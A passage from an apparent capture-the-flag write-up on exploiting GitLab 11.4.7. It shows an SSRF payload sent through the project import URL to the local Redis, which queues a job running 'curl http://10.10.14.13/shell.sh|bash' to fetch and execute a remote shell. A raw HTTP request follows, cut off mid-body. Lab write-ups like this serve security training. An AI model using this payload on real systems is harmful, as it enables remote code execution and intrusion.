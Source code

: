 This version is vulnerable to RCE based on `searchsploit`.

```
$ searchsploit gitlab 
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
GitLab - 'impersonate' Feature Privilege Escalation        | ruby/webapps/40236.txt
GitLab 11.4.7 - RCE (Authenticated) (2)                    | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)  | ruby/webapps/49257.py
```

We don't have credentials as the administrator, but we do have an account. Most of the exploits I found don't work that well, so let's exploit this manually.

First, we need to create a new project and import project via Repo by URL:

<figure><img src="../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Then, we need to send this within the Git Repository URL field:

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|curl http://10.10.14.13/shell.sh|bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
%2F.git
```

The HTTP request should look like this:

{% code overflow="wrap" %}
```http
POST /projects HTTP/1.1
Host: 10.129.227.132:5080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.227.132:5080/projects
Content-Type: application/x-www-form-urlencoded
Content-Length: 754
Origin: http://10.129.227.132:5080
Connection: close
Cookie: _gitlab_session=adff4cd326df8cac71a662dfa591d79c; sidebar_collapsed=false; event_filter=all
Upgrade-Insecure-Requests: 1



utf8=%E2%9C%93&authenticity_token=r4%2FWxTxkvjl0JJxJ1q12HiZvhGxkJgc0J9QD%2BXOGKupa3WS76DnLIFSz4A1UOc9OiTrO3q%2Fk%2F%2Bw%2BLfMhXmD5Fg%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test
 multi
```